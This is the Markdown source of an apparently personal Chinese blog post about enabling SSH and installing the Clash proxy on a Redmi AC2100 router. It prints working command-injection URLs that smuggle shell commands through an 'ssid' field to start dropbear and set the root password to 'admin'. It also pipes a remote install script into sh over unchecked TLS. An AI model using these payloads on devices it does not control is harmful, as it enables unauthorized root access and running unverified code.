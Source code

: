 ```yaml
---
title: 在红米ac2100路由器上开启clash
author: ch3n9w
typora-root-url: ../
date: 2022-12-12 20:17:03
categories:
  - 技术
---
```


> 在争取自由这个宏大命题下, 上网自由可以算得上一件"小事", 然而越是小事, 越与我们的日常息息相关.

<!--more-->

事情的起因是装kubernetes遇到了网络问题且换镜像源无用, 想了想自己对在路由器上fq也感兴趣了很久, 索性查查看, 没想到还挺容易的.

## 开启ssh

ac2100这个型号的路由器存在命令注入漏洞, 可以通过该漏洞开启clash.

登陆到路由器面板,从url中复制stok,替换下面的stok

```bash
# 命令执行漏洞开启ssh
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# 命令执行漏洞修改ssh密码, 这里用的密码为admin
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

然后在自己的电脑上ssh连接,密码admin
```bash
ssh root@192.168.31.1
```

如果报错了,就在`.ssh/config`中添加
```
Host 192.168.31.1
    PubkeyAcceptedAlgorithms +ssh-rsa
    HostkeyAlgorithms +ssh-rsa
```

## 安装clash

ssh登陆到路由器后, 运行:

```bash
export url='https://cdn.jsdelivr.net/gh/juewuy/ShellClash@master' && sh -c "$(curl -kfsSl $url/install.sh)" && source /etc/profile &> /dev/null
```

面板安装不成功的话就换源装.其他就跟着脚本的提示走就可以了
